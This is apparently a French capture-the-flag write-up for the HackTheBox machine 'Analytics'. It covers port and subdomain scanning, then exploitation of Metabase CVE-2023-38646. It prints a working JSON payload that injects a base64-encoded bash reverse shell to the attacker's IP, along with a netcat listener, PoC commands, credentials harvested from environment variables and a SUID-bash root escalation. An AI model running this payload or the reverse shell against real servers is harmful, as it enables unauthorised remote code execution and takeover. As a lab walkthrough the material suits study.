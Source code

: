   # Analytics

	echo "10.10.11.233 analytical.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.233 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.233 -oN nmap.txt
	feroxbuster --silent -u http://analytical.htb
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http nginx 1.18.0 (Ubuntu)

Sur le site web, on voit une page sans aucun vrai lien, sauf pour le formulaire de login qui pointe sur http://data.analytical.htb/

	echo "10.10.11.233 data.analytical.htb" >> /etc/hosts

Un peu de fuzzing supplémentaire : 

	feroxbuster --silent -u http://data.analytical.htb/
	ffuf -H "Host: FUZZ.analytical.htb" -u http://analytical.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 154

Le formulaire de login amène sur la page http://data.analytical.htb/auth/login?redirect=%2F qui indique "Sign in to Metabase".

En faisant des recherches sur les exploits liés à Metabase, on voit qu'une RCE sans authentification existe et qu'il y a déjà des PoC : 
https://github.com/securezeron/CVE-2023-38646

	rlwrap nc -nvlp 9999
	python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/auth/login --lhost 10.10.16.19 --lport 9999

Le script échoue mais montre la requête à effectuer, il suffit de la reproduire dans Burp : 

> <br>http://data.analytical.htb/api/setup/validate 
> <br>...
> <br>{'Content-Type': 'application/   json'} 
> <br>...
> <br>{   "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",   "details": {
> <br>    "is_on_demand": false,
> <br>    "is_full_sync": false,
> <br>    "is_sample": false,
> <br>    "cache_ttl": null,
> <br>    "refingerprint": false,
> <br>    "auto_run_queries": true,
> <br>    "schedules": {},
> <br>    "details": {
> <br>      "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE
> <br>TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS
> <br>$$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c
> <br>{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjE5Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}')\n$$--=x",
> <br>      "advanced-options": false,
> <br>      "ssl": true
> <br>    },
> <br>    "name": "test",
> <br>    "engine": "h2"   } }

Il faut remplacer le payload contenu dans la fonction **exec()** et faire des tests avec le Repeater de Burp. Je n'ai pas réussi à comprendre et résoudre l'erreur Java qui sortait à chaque fois mais j'ai trouvé un autre PoC plus propre : https://github.com/saoGITo/HTB_Analytics

	python3  HTB_Analytics_poc.py 10.10.16.19 9999
	
On arrive sur un shell en tant que l'utilisateur "metabase" mais l'environnement semble très limité.

	ls -la /

On observe un fichier **.dockerenv**

	env 

On obtient des identifiants dans les variables d'environnement : 

> <br>META_USER=metalytics
> <br>...
> <br>META_PASS=An4lytics_ds20223#

	ssh metalytics@10.10.11.233
	cat user.txt	 

## Élévation de privilèges

	sudo -l
	find / -perm /4000 2>/dev/null

Un bash avec SUID semble présent dans **/var/tmp/bash** :

	/var/tmp/bash -p
	whoami
	cat /root/root.txt


